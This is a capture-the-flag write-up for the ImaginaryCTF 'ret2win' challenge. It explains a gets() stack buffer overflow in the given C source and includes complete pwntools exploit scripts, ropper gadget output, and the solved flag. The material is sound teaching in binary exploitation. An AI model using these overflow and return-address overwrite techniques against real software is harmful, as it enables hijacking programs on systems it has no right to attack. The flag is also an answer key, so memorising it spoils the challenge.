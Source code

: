 # ret2win

## Description

> Can you overflow the buffer and get the flag? (Hint: if your exploit isn't working on the remote server, look into stack alignment)
>
> Author: Eth007
>
> https://imaginaryctf.org/r/BoCID#vuln \
> https://imaginaryctf.org/r/73iLJ#vuln.c \
> nc ret2win.chal.imaginaryctf.org 1337

Tags: _pwn_

## Solution

As the challenge name suggests, this is a `ret2win` challenge, which means We have to change the flow of the program to execute a function called `win()` by doing a stack overflow and overwriting the return address `RET` to redirect the program's execution flow to the address of the `win()` function. I really recommend watching [this video](https://www.youtube.com/watch?v=1S0aBV-Waeo) since he explains really well how buffer overflow works.

Now, let's take a look at the source code:

```c
#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[64];
  gets(buf);
}

int win() {
  system("cat flag.txt");
}
```

As we can see the program just initialize a 64 bytes buffer (or 64 characters since a character is 1 byte long), and lets the user fill it using the function `gets()`. This function is well known as being vulnerable to buffer overflow attacks because it does not perform any bounds checking on the input. So the idea here is to provide the program with 64 bytes of garbage to fill the buffer plus 8 bytes of more garbage to overwrite the base pointer `BP` and the `win()` function's address to overwrite the return address `RET` effectively changing the program's flow execution. To do so I used the `pwntools` library, which is a powerful and popular framework for exploit development. Don't be stirred by the number of lines, the most important thing to see here is the part where I build the payload and send it to the program, everything else is more like a template.

```python
#!/usr/bin/python3
from pwn import *

# Set up the target binary by specifying the ELF file
elf = context.binary = ELF("vuln")

# Defining the GDB script that will be used when running the binary
gs = '''
continue
'''
# Launch the binary with GDB, without GDB or REMOTE based on the command-line arguments
def start():
    if args.REMOTE:
        return remote("ret2win.chal.imaginaryctf.org", 1337)
    else:
        if args.GDB:
            return gdb.debug(elf.path, gdbscript=gs)
        else:
            return process(elf.path)

io = start()

# Overwrite the return address with the win() function's memory address
payload = b'A'*72 + p64(elf.sym.win)

# Send the payload
io.sendline(payload)

# Interact with the process
io.interactive()
```

Run the exploit script as I did here:

```shell
$ ./xpl.py REMOTE
[*] '/home/jovenoven/Downloads/imaginary_ctf/pwn/ret2win/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to ret2win.chal.imaginaryctf.org on port 1337: Done
[*] Switching to interactive mode
== proof-of-work: disabled ==
[*] Got EOF while reading in interactive
$ a
$ a
[*] Closed connection to ret2win.chal.imaginaryctf.org port 1337
[*] Got EOF while sending in interactive


```

It didn't retrieve the flag because internally the program got a `SIGSEGV` code or a `segmentation fault`. The reason why this happens is a stack alignment error. Stack alignment refers to the requirement that the stack pointer `SP` should be aligned to a multiple of 16 bytes, which is violated when inserting the `win()` function address directly. The easiest way to solve this problem is to add a `ret` gadget to the payload, effectively creating a `ROP Chain` you can learn more about it [here](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/rop-chaining-return-oriented-programming). I will use `ropper` to get the gadget address.

```c
$ ropper --file vuln
...
0x00000000004010a3: cli; ret;
0x000000000040119c: endbr64; sub rsp, 8; add rsp, 8; ret;
0x0000000000401000: endbr64; sub rsp, 8; mov rax, qword ptr [rip + 0x2fe9]; test rax, rax; je 0x1016; call rax;
0x00000000004010a0: endbr64; ret;
0x0000000000401095: hlt; nop word ptr cs:[rax + rax]; endbr64; ret;
0x0000000000401178: leave; ret;
0x0000000000401196: nop; pop rbp; ret;
0x00000000004010cf: nop; ret;
0x000000000040101a: ret;

100 gadgets found

```

The final script should look like this:

```python
#!/usr/bin/python3
from pwn import *

# Set up the target binary by specifying the ELF file
elf = context.binary = ELF("vuln")

# Defining the GDB script that will be used when running the binary
gs = '''
continue
'''
# Launch the binary with GDB, without GDB or REMOTE based on the command-line arguments
def start():
    if args.REMOTE:
        return remote("ret2win.chal.imaginaryctf.org", 1337)
    else:
        if args.GDB:
            return gdb.debug(elf.path, gdbscript=gs)
        else:
            return process(elf.path)

io = start()

# Overwrite the return address with the win() function's memory address
payload = b'A'*72 + p64(0x40101a) + p64(elf.sym.win)

# Send the payload
io.sendline(payload)

# Interact with the process
io.interactive()
```

Then, execute it with the `REMOTE` option and get the flag!

```shell
$ ./solve.py REMOTE
[*] '/home/jovenoven/Downloads/imaginary_ctf/pwn/ret2win/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to ret2win.chal.imaginaryctf.org on port 1337: Done
[*] Switching to interactive mode
== proof-of-work: disabled ==
ictf{r3turn_0f_th3_k1ng?}
[*] Got EOF while reading in interactive
$ a
$ a
[*] Closed connection to ret2win.chal.imaginaryctf.org port 1337
[*] Got EOF while sending in interactive

```

Flag `ictf{r3turn_0f_th3_k1ng?}`
